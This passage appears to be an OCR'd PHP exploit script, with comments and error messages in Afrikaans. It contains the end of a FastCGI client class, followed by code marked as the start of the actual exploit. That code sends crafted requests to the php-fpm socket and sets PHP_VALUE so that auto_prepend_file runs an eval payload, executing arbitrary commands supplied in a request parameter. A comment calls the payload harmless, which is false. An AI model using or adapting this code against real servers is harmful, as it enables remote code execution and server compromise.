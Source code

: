 ```php
}
if ($paramsRequest) {
$request .= $this->buildPacket(self::PARAMS, $paramsRequest);
}
$request .= $this->buildPacket(self::PARAMS, '');
if ($stdin) {
$request .= $this->buildPacket(self::STDIN, $stdin);
}
$request .= $this->buildPacket(self::STDIN, '');
fwrite($this->_sock, $request);
do {
$resp = $this->readPacket();
if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
$response .= $resp['content'];
}
} while ($resp && $resp['type'] != self::END_REQUEST);
var_dump($resp);
if (!is_array($resp)) {
throw new Exception('Bad request');
}
switch (ord($resp['content']{4})) {
case self::CANT_MPX_CONN:
throw new Exception('Hierdie app kan nie multiplex nie [CANT_MPX_CONN]');
break;
case self::OVERLOADED:
throw new Exception('Nuwe versoek afgekeur; te besig [OVERLOADED]');
break;
case self::UNKNOWN_ROLE:
throw new Exception('Rolwaarde onbekend [UNKNOWN_ROLE]');
break;
case self::REQUEST_COMPLETE:
return $response;
}
}
}
?>
<?php
// werklike uitbuiting begin hier
if (!isset($_REQUEST['cmd'])) {
die("Kontroleer jou insette\n");
}
if (!isset($_REQUEST['filepath'])) {
$filepath = __FILE__;
}else{
$filepath = $_REQUEST['filepath'];
}
$req = '/'.basename($filepath);
$uri = $req .'?'.'command='.$_REQUEST['cmd'];
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php eval(\$_REQUEST['command']);?>"; // php payload -- Doen niks nie
$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
//$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = http://127.0.0.1/e.php";
$params = array(
'GATEWAY_INTERFACE' => 'FastCGI/1.0',
'REQUEST_METHOD'    => 'POST',
'SCRIPT_FILENAME'   => $filepath,
'SCRIPT_NAME'       => $req,
'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
'REQUEST_URI'       => $uri,
'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
'PHP_VALUE'         => $php_value,
```